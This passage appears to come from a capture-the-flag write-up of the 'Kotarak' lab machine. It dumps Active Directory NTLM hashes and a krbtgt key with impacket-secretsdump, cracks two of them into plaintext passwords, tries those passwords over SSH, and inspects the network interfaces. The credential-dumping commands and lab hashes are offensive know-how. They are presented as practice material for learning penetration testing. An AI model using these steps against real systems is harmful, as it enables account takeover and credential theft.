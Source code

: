 Now let’s decrypt it with secretsdump. Let’s assume the .dit file is ntds.dit, and .bin file is SYTEM file, let’s change their name for better readability and:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL

#most important:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::

atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

[*] Kerberos keys from ntds.dit 
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8

```

Let’s decrypt this using crackstation:

![image.png]({{ site.baseurl }}/assets/kotarak/image%2014.png)

```bash
Adminsitrator:f16tomcat!
atanas:Password123!
```

Let’s see if we can ssh into atanas:

```bash
ssh atanas@10.10.10.55
```

Did not work. The password did not match. Let’s try tomcat:

```bash
ssh tomcat@10.10.10.55
```

Also did not work.

Checking ifconfig, there are other network cards:

```bash
ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:94:aa:51
          inet addr:10.10.10.55  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:fe94:aa51/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:fe94:aa51/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1440565 errors:0 dropped:82 overruns:0 frame:0
          TX packets:1455184 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:213863418 (213.8 MB)  TX bytes:1424551402 (1.4 GB)

lxcbr0    Link encap:Ethernet  HWaddr 00:16:3e:00:00:00
          inet addr:10.0.3.1  Bcast:0.0.0.0  Mask:255.255.255.0
          inet6 addr: fe80::216:3eff:fe00:0/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:183 errors:0 dropped:0 overruns:0 frame:0
          TX packets:182 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:9028 (9.0 KB)  TX bytes:10417 (10.4 KB)

```
